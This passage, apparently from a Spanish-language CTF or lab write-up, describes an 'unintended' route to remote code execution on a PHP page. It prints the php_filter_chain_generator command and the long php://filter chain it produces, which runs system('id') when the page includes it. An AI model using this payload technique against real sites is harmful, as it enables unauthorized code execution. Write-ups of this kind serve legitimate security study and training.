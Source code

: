 ## Intrusion (via no intencionada)

Otra manera de poder conseguir RCE que posiblemente no sea intencionadas es haciendo uso de **filter chain**,  para realizarlo podemos hacer uso de este script que automatiza la creacion del payload usando php filters chains: [https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)

Para el ejemplo generare el payload que haga uso de la funcion system para ejecutar el comando **id**

```ruby
python3 php_filter_chain_generator.py --chain '<?php system("id"); ?>'
```

Nos genera todo esto

```
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp  
```
Cuando nosotros enviemos el payload la pagina interpretara el PHP y ejecutara el comando indicando en **system**
